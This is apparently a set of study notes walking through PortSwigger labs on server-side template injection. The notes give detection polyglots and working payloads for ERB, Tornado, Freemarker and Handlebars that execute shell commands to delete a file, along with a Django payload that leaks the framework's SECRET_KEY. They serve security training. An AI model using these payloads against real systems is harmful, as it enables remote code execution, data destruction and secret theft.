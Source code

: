 # Server Side template injection

[Portswigger](https://portswigger.net/web-security/server-side-template-injection)

## Methodology

Can inject a series of injectable ssti strings to identify the use of ssti

```
${{<\%[\%'"}}\%\
```

Another attempt would be to inject mathematical syntax for ssti and see possible return, look for `49` or `7777777` in ther response form the below:

```
${7*7}
{{7*7}}
{{7*'7'}}
```

Additional injections to test for:

```
${*comment*}
${"z".join("ab")}
```

More payloads and thoughts on ssti:
[hacktricks ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## Labs Walkthrough

### Basic server-side template injection

Background:
```
To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- review a products more details, notice a `GET` using a `message` parameter to render "Unfortunately this product is out of stock"
- in the ERB documentation discover the syntax: `<\%= someExpression\%>` is used to evaluate an expression and render the result on the page
- use ERB template syntax to test a payload containg a mathematical operation `<\%= 7*7 \%>`
- URL encode the payload and insert it as the value of the message parameter in the URL `https://YOUR-LAB-ID.web-security-academy.net/?message=<\%25\%3d+7*7+\%25>`
- notice the operation executes and you get a `49` on the page, meaning we have ssti
- Further ERB documentation talks about the `system()` command, construct a payload to delete carlos's file:

```
<\%= system("rm /home/carlos/morale.txt") \%>
```

- URL encode this and send it as the message parameter `https://YOUR-LAB-ID.web-security-academy.net/?message=<\%25+system("rm+/home/carlos/morale.txt")+\%25>`

### Basic server-side template injection (code context)

Background:
```
To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
```

- login and post a comment on one of the blog posts
- notice that on the "my account" page, you can select whether you want the site to use your full name, first name, or nickname. A POST request sets the value of the parameter `blog-post-author-display` to either user.name, user.first_name or user.nickname
- in burp send the request `POST /my-account/change-blog-post-author-display` to repeater
- in Tornado the template expressions are surrounded with double curly braces, so in repeater notice that you can escape out of the expression and inject arbitrary template syntax as follows `blog-post-author-display=user.name}}{{7*7}}`
- Reload the page containing your test comment and notice the page containing your test comment now says `PeterWiener49}}`
- Tornado does use syntax for executing Python with `\{\\% somePython \\%\}`, and pythong supports the `system()` command
- combine this to create syntax to execute the deletion of carlos's file:

```
{\% import os \%}
{{os.system('rm /home/carlos/morale.txt')
```
- in repeater inject this payload in where you placed the 7*7 earlier, make sure to url encode it `blog-post-author-display=user.name}}{\%25+import+os+\%25}{{os.system('rm\%20/home/carlos/morale.txt')`
- reload the page containing your comment and the lab completes

### Server-side template injection using documentation

Background:
```
identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates, notice that this template engine uses the syntax `${someExpression}`
- create your own expression or change one of the others to maybe cause an error, save the template. You get an error saying it is the Freemarker template engine
- Freemarker uses the `new()` built-in which can be dangerous
- inject a payload like so: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

This lab was more about researching and discovering all of these pieces together. albinowax has an exploit for freemarker you can view [here](https://portswigger.net/research/server-side-template-injection)

### Server-side template injection in an unknown language with a documented exploit

Background:
```
identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- notice that when you try to view more details about the first product a `GET` request uses the message parameter to render "Unfortunately this product is out of stock" on the home page. 
- fuzz this `message` parameter with `${{<\%[\%'"}}\%\`, which the error shows it is using `Handlebars`
- search for a handlebars server side template injection payload, there's one by Zombiehelp54 that looks like this, with it already deleting carlos morale.txt:

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

- url encode this exploit and add it as the value of the message parameter in the url as so:

```
https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz\%7b\%7b\%23\%77\%69\%74\%68\%20\%22\%73\%22\%20\%61\%73\%20\%7c\%73\%74\%72\%69\%6e\%67\%7c\%7d\%7d\%0d\%0a\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%22\%65\%22\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%73\%70\%6c\%69\%74\%20\%61\%73\%20\%7c\%63\%6f\%6e\%73\%6c\%69\%73\%74\%7c\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%75\%73\%68\%20\%28\%6c\%6f\%6f\%6b\%75\%70\%20\%73\%74\%72\%69\%6e\%67\%2e\%73\%75\%62\%20\%22\%63\%6f\%6e\%73\%74\%72\%75\%63\%74\%6f\%72\%22\%29\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%73\%74\%72\%69\%6e\%67\%2e\%73\%70\%6c\%69\%74\%20\%61\%73\%20\%7c\%63\%6f\%64\%65\%6c\%69\%73\%74\%7c\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%75\%73\%68\%20\%22\%72\%65\%74\%75\%72\%6e\%20\%72\%65\%71\%75\%69\%72\%65\%28\%27\%63\%68\%69\%6c\%64\%5f\%70\%72\%6f\%63\%65\%73\%73\%27\%29\%2e\%65\%78\%65\%63\%28\%27\%72\%6d\%20\%2f\%68\%6f\%6d\%65\%2f\%63\%61\%72\%6c\%6f\%73\%2f\%6d\%6f\%72\%61\%6c\%65\%2e\%74\%78\%74\%27\%29\%3b\%22\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%2e\%70\%6f\%70\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%23\%65\%61\%63\%68\%20\%63\%6f\%6e\%73\%6c\%69\%73\%74\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%23\%77\%69\%74\%68\%20\%28\%73\%74\%72\%69\%6e\%67\%2e\%73\%75\%62\%2e\%61\%70\%70\%6c\%79\%20\%30\%20\%63\%6f\%64\%65\%6c\%69\%73\%74\%29\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%74\%68\%69\%73\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%20\%20\%7b\%7b\%2f\%65\%61\%63\%68\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%20\%20\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%20\%20\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d\%0d\%0a\%7b\%7b\%2f\%77\%69\%74\%68\%7d\%7d
```

### Server-side template injection with information disclosure via user-supplied objects

Background:
```
To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates
- change one of the template expressions to something invalid using the fuzz polyglot: `${{<\%[\%'"}}\%\` save and notice the errors hint at a Django framework being used
- Django supports the `debug` tag to help with debugging information
- remove your invalid syntax and enter the following statement `{\% debug \%}`, save and notice this contains a list of objects and properties we can access from within the template
- study the settigns object in Django documentation and notice that it contains a `SECRET_KEY` propert which has dangerous security implications if known to an attacker
- remove the `{\% debug \%}` in the template and add this: `{{settings.SECRET_KEY}}`
- submit secret key to finish the lab
